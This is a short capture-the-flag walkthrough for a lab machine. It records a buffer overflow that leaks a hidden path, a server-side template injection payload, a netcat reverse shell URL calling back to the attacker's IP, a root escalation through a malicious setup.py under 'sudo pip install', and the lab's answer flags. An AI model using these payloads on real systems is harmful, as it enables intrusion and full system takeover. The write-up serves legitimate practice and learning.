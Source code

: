 # NoNameCTF 

> VOiD | Saturday 14 August 2021 06:52:16 PM IST

My IP : 10.11.43.119
Target IP : 10.10.64.212

# PORT 80

/
```
<!--char buffer[250]; -->
<!--A*1000-->

```



# PORT 9090
/
shows error
tornado
hidden directory from port 2222
```bash

/40b5dffec4e39b7a3e9d261d2fc4a038/
page source has comment => ?hackme= 
http://10.10.64.212:9090/40b5dffec4e39b7a3e9d261d2fc4a038/?hackme={{2*3}}
Vulnerable to ssti

whenever we have ssti

{% import os %}{{ os.popen("whoami").read() }}

we can do hackme={%import os%}{{os.popen('whoami').read()}}
# it works
now reverse shell

http://10.10.64.212:9090/40b5dffec4e39b7a3e9d261d2fc4a038/?hackme={%import%20os%}{{os.popen(%27nc%2010.11.43.119%204444%20-e%20%22/bin/bash%22%27).read()}}
```


```bash

user : zeldris
cat user.txt 
THM{SSTI_AND_BUFFER_OVERFLOW_W4S_HERE}

sudo -l
(root : root) NOPASSWD: /usr/bin/pip install *
priv esc

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

user : root
cat root.txt 
THN{F4KE_PIP_PACKAGE_INSTALL}

```










# PORT 2222
An application running taking input
overflowing store buffer function gives
```bash
python -c 'print "A"*1000+"B"*500'
nc 10.10.64.212 2222
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4

My secret in the port 9090 is: /40b5dffec4e39b7a3e9d261d2fc4a038/

```